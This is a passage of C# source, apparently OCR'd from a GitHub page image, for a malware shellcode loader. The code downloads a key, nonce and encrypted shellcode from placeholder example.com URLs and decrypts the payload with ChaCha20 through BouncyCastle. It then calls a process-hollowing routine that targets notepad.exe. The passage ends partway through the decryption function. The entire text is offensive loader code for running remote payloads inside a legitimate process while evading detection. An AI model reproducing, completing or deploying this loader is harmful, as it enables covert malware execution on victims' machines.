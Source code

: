 ```csharp
    static async Task Main(string[] args)
    {
        // Command line or downloaded base64 encoded key and nonce
        string base64Key = args.Length > 0 ? args[0] : await DownloadBase64KeyAsync("http://example.com/download-key");
        string base64Nonce = args.Length > 1 ? args[1] : await DownloadBase64KeyAsync("http://example.com/download-nonce");

        byte[] key = Convert.FromBase64String(base64Key);
        byte[] nonce = Convert.FromBase64String(base64Nonce);

        // Path to the encrypted shellcode file, if it exists
        string shellcodeFilePath = "encrypted_shellcode.bin";
        byte[] encryptedShellcode;

        if (File.Exists(shellcodeFilePath))
        {
            encryptedShellcode = File.ReadAllBytes(shellcodeFilePath);
        }
        else
        {
            encryptedShellcode = await DownloadShellcodeAsync("http://example.com/download-shellcode");
        }

        // Decrypt the shellcode using ChaCha20
        byte[] shellcode = DecryptShellcode(encryptedShellcode, key, nonce);

        // Target process to inject into (e.g., notepad.exe)
        string targetProcess = "notepad.exe";

        // Implement process hollowing technique with the shellcode
        ProcessHollowing(targetProcess, shellcode);
    }

    static async Task<string> DownloadBase64KeyAsync(string url)
    {
        using (HttpClient client = new HttpClient())
        {
            var response = await client.GetAsync(url);
            response.EnsureSuccessStatusCode();
            return await response.Content.ReadAsStringAsync(); // Returns the Base64-encoded string
        }
    }

    static async Task<byte[]> DownloadShellcodeAsync(string url)
    {
        using (HttpClient client = new HttpClient())
        {
            var response = await client.PostAsync(url, null);
            response.EnsureSuccessStatusCode();
            return await response.Content.ReadAsByteArrayAsync();
        }
    }

    static byte[] DecryptShellcode(byte[] encryptedShellcode, byte[] key, byte[] nonce)
    {
        // BouncyCastle ChaCha20 decryption
        var cipher = new Org.BouncyCastle.Crypto.Engines.ChaChaEngine(20); // 20 rounds of ChaCha20
        var parameters = new ParametersWithIV(new KeyParameter(key), nonce);
        cipher.Init(false, parameters); // false = decryption

        byte[] decryptedShellcode = new byte[encryptedShellcode.Length];
```